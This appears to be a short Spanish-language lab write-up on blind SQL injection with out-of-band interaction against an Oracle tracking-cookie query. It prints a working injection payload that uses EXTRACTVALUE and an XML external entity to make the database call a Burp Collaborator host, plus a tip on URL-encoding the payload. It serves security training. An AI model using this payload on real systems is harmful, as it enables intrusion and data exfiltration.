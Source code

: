 ![](/img2/Pasted%20image%2020250709150744.png)

> Para evitar errores es necesario url-encodear los % y los ;.

- Injection 

```sql
SELECT * FROM tracking WHERE id = 'zxTvYbp4miMpaCJK'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://r4waitf6xiwmfkha147d21l0trzinabz.oastify.com/"> %25remote%3b]>'),'/l') FROM dual-- -'
```

## Exfiltración de datos por canal OOB en Inyección SQL || Blind SQL injection with out-of-band data exfiltration

- Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation

![](/img2/Pasted%20image%2020250709154021.png)

![](/img2/Pasted%20image%2020250709154100.png)
